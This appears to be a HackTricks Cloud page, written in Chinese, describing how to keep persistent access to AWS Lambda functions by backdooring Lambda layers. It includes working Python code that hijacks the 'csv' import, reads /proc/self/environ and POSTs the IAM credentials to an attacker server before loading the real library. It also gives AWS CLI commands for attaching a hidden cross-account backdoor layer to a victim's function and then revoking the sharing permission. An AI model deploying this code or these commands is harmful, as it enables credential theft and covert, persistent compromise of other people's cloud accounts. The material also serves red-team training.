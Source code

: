 # AWS - Lambda Layers Persistence

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Lambda Layers

Lambda 层是一个 .zip 文件归档，**可以包含额外的代码**或其他内容。一个层可以包含库、[自定义运行时](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、数据或配置文件。

每个函数最多可以包含 **五个层**。当你在一个函数中包含一个层时，**内容会被提取到执行环境中的 `/opt`** 目录。

**默认情况下**，你创建的 **层** 对你的 AWS 账户是 **私有** 的。你可以选择 **与其他账户共享** 一个层或 **将** 该层 **公开**。如果你的函数使用了不同账户发布的层，即使该层被删除或你被撤销访问权限，你的函数仍然可以 **继续使用该层版本**。然而，你不能使用已删除的层版本创建新函数或更新函数。

作为容器镜像部署的函数不使用层。相反，当你构建镜像时，将你首选的运行时、库和其他依赖项打包到容器镜像中。

### Python load path

Python 在 lambda 中使用的加载路径如下：
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
检查 **第二** 和 **第三** **位置** 是否被 **lambda layers** 解压其文件的目录占用： **`/opt/python/lib/python3.9/site-packages`** 和 **`/opt/python`**

{% hint style="danger" %}
如果攻击者成功地 **后门** 一个被使用的 lambda **layer** 或 **添加一个** 在加载常用库时会 **执行任意代码** 的 **layer**，他将能够在每次 lambda 调用时执行恶意代码。
{% endhint %}

因此，要求是：

* **检查** 受害者代码 **加载的库**
* 创建一个 **带有 lambda layers 的代理库**，该库将 **执行自定义代码** 并 **加载原始** 库。

### 预加载的库

{% hint style="warning" %}
在滥用此技术时，我发现了一个困难：一些库在你的代码执行时已经在 python 运行时中 **被加载**。我原本期待找到像 `os` 或 `sys` 这样的库，但 **甚至 `json` 库也被加载**。\
为了滥用这种持久性技术，代码需要 **加载一个在代码执行时未加载的新库**。
{% endhint %}

使用这样的 python 代码，可以获得 lambda 中 python 运行时 **预加载的库列表**：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
这是**列表**（检查像`os`或`json`这样的库是否已经存在）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
这是**lambda 默认包含的库**列表：[https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda 层后门

在这个例子中，假设目标代码正在导入**`csv`**。我们将**对 `csv` 库的导入进行后门处理**。

为此，我们将**创建目录 csv**，并在其中放置文件**`__init__.py`**，路径为 lambda 加载的路径：**`/opt/python/lib/python3.9/site-packages`**\
然后，当 lambda 执行并尝试加载**csv**时，我们的**`__init__.py` 文件将被加载并执行**。\
该文件必须：

* 执行我们的有效载荷
* 加载原始的 csv 库

我们可以通过以下方式同时完成这两项：
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
然后，创建一个 zip 文件，包含路径 **`python/lib/python3.9/site-packages/__init__.py`** 中的代码，并将其添加为 lambda 层。

您可以在 [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) 找到此代码。

集成的有效载荷将在 **首次调用或在 lambda 容器重置后**（代码更改或冷 lambda）**发送 IAM 凭证到服务器**，但 **其他技术**（如以下内容）也可以集成：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 外部层

请注意，可以使用 **来自外部账户的 lambda 层**。此外，即使没有权限，lambda 也可以使用来自外部账户的层。\
还要注意，**一个 lambda 最多可以有 5 个层**。

因此，为了提高此技术的灵活性，攻击者可以：

* 在用户的现有层中植入后门（没有任何外部内容）
* **在** **他的账户中创建**一个**层**，给予**受害者账户使用**该层的**访问权限**，**配置**受害者的 Lambda 中的**层**并**移除权限**。
* **Lambda** 仍然能够**使用该层**，而**受害者**将没有任何简单的方法来**下载层代码**（除了在 lambda 内部获取反向 shell）。
* 受害者**不会看到**使用 **`aws lambda list-layers`** 的外部层。

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
